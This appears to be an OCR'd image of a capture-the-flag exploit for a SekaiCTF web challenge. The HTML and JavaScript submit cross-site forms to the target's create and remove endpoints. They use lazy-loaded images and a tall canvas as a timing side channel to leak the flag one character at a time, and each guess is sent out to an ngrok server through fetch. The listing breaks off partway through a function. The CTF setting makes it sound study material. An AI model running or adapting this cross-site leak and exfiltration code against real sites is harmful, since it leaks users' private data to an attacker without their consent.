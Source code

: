 ```html

  <form id=f2 action="http://localhost:1234/remove" method="POST" target="_blank">
    <input id=inp2 name="index" value="">
  </form>
  <script>
    let flag = 'SEKAI{'
    const TARGET = 'https://safelist.ctf.sekai.team'
    f.action = TARGET + '/create'
    f2.action = TARGET + '/remove'

    const sleep = ms => new Promise(r => setTimeout(r, ms))
    const send = data => fetch('http://server.ngrok.io?d='+data)
    const charset = 'abcdefghijklmnopqrstuvwxyz'.split('')

    // start exploit
    let count = 0
    setTimeout(async () => {
      let L = 0
      let R = charset.length - 1
      while( (R-L)>3 ) {
        let M = Math.floor((L + R) / 2)
        let c = charset[M]
        send('try_' + flag + c)
        const found = await testChar(flag + c)
        if (found) {
          L = M
        } else {
          R = M - 1
        }
      }

      // fallback to linear since I am not familiar with binary search lol
      for(let i=R; i>=L; i--) {
        let c = charset[i]
        send('try_' + flag + c)
        const found = await testChar(flag + c)
        if (found) {
          send('found: '+ flag+c)
          flag += c
          break
        }
      }
      
    }, 0)

    async function testChar(str) {
      return new Promise(resolve => {
          /*
            For 3350, you need to test it on your local to get this number.
            The basic idea is, if your post starts with "Z", the image should not be loaded because it's under lazy loading threshold
            If starts with "A", the image should be loaded because it's in the threshold.
          */
          inp.value = str + '<br><canvas height="3350px"></canvas><br>'+Array.from({length:20}).map((_,i)=>`<img loading=lazy src=/?${i}>`).join('')
          f.submit()

          setTimeout(() => {
            run(str, resolve)
          }, 500)
      })
    }

```